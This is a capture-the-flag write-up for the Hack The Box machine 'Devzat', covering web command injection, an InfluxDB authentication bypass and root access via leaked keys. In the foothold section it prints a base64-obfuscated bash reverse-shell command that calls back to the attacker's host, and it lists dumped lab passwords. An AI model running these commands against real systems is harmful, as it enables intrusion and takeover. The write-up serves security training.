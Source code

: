 ##### Box Name: [Devzat](https://app.hackthebox.com/machines/Devzat)
##### Difficulty: Medium
---

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/devzat.png)

## Enumeration

### Port Scan
##### TCP
```js
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://devzat.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=3/10%Time=622A1FFB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,C,"SSH-2\.0-Go\r\n");
Service Info: Host: devzat.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web server enumeration
From the nmap output, we can see that the port 80 is redirecting to http://devzat.htb. We will need to add the hostname `devzat.htb` on our hosts file to be able to visit the website.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/website.png)

We also get an email: `patrick@devzat.htb` on the website.

### Other service enumeration
We have a SSH service at port 8000
While trying to connect, if you get this error message:
```txt
Unable to negotiate with 10.10.11.118 port 8000: no matching host key type found. Their offer: ssh-rsa
```
Add the following line to `/etc/ssh/ssh_config` file to fix the issue:
```txt
HostKeyAlgorithms +ssh-rsa,ssh-dss
```

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/ssh-chatroom.png)

Logging in, we see it is a chatroom over SSH. It is the [devzat](https://github.com/quackduck/devzat) chat application.
It accepts different syntax options for the text such as:
- `*text*` -> Italic
- `_text_` -> Italic
- `**text**` -> Bold
- `~~text~~` -> strikethrough

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/syntax-options.png)

This made me check for other ways I can play with the text. In this process, I found out that URLs were shown in the markdown format of `[link text](URL of link)`
For example: `http://example.com` would become `[http://example.com](http://example.com)`

In markdown, we can include remote images with the syntax of `![](URL of image)`. I tried to fetch remote files with this technique and was successful in making a server side request to my python http server. This can be a potential SSRF attack surface.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/remote-fetch-possible.png)

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/capture-request.png)

However, I couldn't do anything beyond simply making a simple get request. So I'll move towards subdomain enumeration.

#### Subdomain enumeration:
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -o ffuf-vhosts.out -u http://devzat.htb -H "Host: FUZZ.devzat.htb" -fw 18
```
Found subdomain:
```bash
pets.devzat.htb
```

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/pets-devzat-htb.png)

The website takes in Pet name and Pet species. The pet species can be selected from a dropdown list containing different available species on the website's backend. After adding the pet, the website displays the relevant text for that species.

Let's check the request on Burpsuite:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/add-pet-req.png)

After playing with the parameters, we can successfully get command injection. Try the following payload as shown below on the species parameter:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/command-injection-poc.png)

Since we added the `sleep 4` command, the request takes 4 seconds as expected.

## Exploitation
### Foothold
I used the following reverse shell to get a shell on the system:
```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQvODAgMD4mMQ== | base64 -d | bash
```

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/revshell.png)

After getting a simple shell, we can get an encrypted SSH shell with the SSH private key found at `~/.ssh/id_rsa`.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/patrick-id-rsa.png)

### Towards User
There are two user accounts on the system:
- patrick
- catherine

Logging in as both patrick and catherine, we see their private chat logs on the devzat chatroom:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/chat-logs.png)

Checking the chat logs on the devzat chatroom as patrick, we can see that there were discussions of patrick and admin about influxdb instance.

Using `netstat`, we can see that the influxdb port 8086 is open:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/netstat-output.png)

To identify the InfluxDB version, we use `curl` and check the `X-Influxdb-Version` header.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/influxdb-version.png)

InfluxDB version: 1.7.5
Doing a quick google search, I found that this version is vulnerable to an authentication bypass vulnerability (CVE-2019-20933) in Influxdb's authenticate function due to an empty shared secret.

There is a public exploit for this vulnerability available on Github
https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933

We will use this exploit. First we need to get a SSH port forward of port 8086 to our attacker machine.
```bash
ssh -L 8086:127.0.0.1:8086 patrick@devzat.htb -i patrick-id_rsa -fN
```
![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/influxdb-exploit.png)

Got passwords of three users from the database:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/creds.png)

| User      | Password                         |
| --------- | -------------------------------- |
| wilhelm   | `WillyWonka2021`                   |
| catherine | `woBeeYa*************************` |
| charles   | `RoyalQueenBee$`                   | 

We can switch to user catherine with her password `woBeeYa*************************`

### Privilege escalation to root
From the chat logs we found earlier, it was mentioned that there were source code available in the backups.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/devzat-backups.png)

Download these zip files into our local machine.
Using `grep`, we found a password  `CeilingCat******************` in the backups

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/got-password.png)

In the local dev instance of devzat, we can see a `/file` command that isn't present in the production environment running on port 8000. It requires a password to preview the file. 

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/local-dev-instance.png)

Let's use the password that we found in the source code. We now have the root user's private key and can get a shell as root.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/root-private-ssh-key.png)

Getting a shell as root is as simple as this:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/got-root.png)

Happy Hacking :)

---
